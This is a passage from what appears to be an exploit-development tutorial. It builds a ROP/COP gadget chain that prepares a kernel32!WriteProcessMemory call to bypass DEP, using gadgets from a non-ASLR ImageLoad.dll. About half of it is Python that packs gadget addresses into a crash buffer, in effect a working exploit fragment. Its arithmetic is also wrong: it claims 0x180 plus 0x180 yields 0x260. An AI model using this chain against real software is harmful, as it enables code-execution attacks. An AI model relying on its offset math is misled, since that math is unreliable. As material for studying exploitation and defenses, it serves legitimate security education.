 Once the ROP gadgets have executed, ECX now contains the same address as the parameter placeholder for `kernel32!WriteProcessMemory`.

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM66.png" alt="">

The goal now is to dereference the `kernel32!WriteProcessMemory` parameter placeholder and place it in a CPU register we have control over.

Since ECX is reserved for the arbitrary write, we will use EAX to _also_ store the `kernel32!WriteProcessMemory` parameter placeholder.

Recall that EDX still contains a value of 0x180, from the `nSize` parameter. After all, we have not manipulated EDX since. Conveniently, the current distance between the address within EAX and the `kernel32!WriteProcessMemory` parameter placeholder is 0x260.

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM67.png" alt="">

Since we already have a routine of ROP and COP gadgets that increases EDX 0x180 bytes, we can utilize the _EXACT_ same routine to increase it another 0x180 bytes - which will give us a value of 0x260! Once EDX contains the value of 0x260, we can subtract it from EAX and place the difference in EAX. This will allow us to store the `kernel32!WriteProcessMemory` parameter placholder in EAX. This time, however, since EDI already contains the old "return to the stack" routine - we can just directly add to EDX.

```python
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
```

After the `add edx` COP gadgets execute, EDX contains the distance between the `kernel32!WriteProcessMemory` and EAX (which is 0x260).

